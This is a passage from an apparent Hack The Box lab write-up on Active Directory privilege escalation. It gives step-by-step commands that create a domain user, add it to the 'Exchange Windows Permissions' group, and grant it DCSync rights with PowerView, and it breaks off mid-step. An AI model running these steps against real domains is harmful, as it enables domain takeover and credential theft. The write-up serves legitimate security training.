 
2. Create a new user 

```
net user hacker hackhack /add /domain
```

![](./IMG/40.png)

3. Add this user to "Exchange Windows Permissions" group

```
net group "Exchange Windows Permissions" /add hacker
```

![](./IMG/41.png)

4. Set up credential in environment variable

```
$pass = convertto-securestring 'kalikali' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('kali', $pass)
```

![](./IMG/42.png)

![](./IMG/43.png)

5. At first, I follow the tutorial from BlodHound to use the following command, but it always stuck.

```
Add-DomainObjectAcl -Credential $creds -TargetIdentity htb.local -Rights DCSync
```

![](./IMG/50.png)

6. I check the following article to modify the payload, and it seems success to execute 
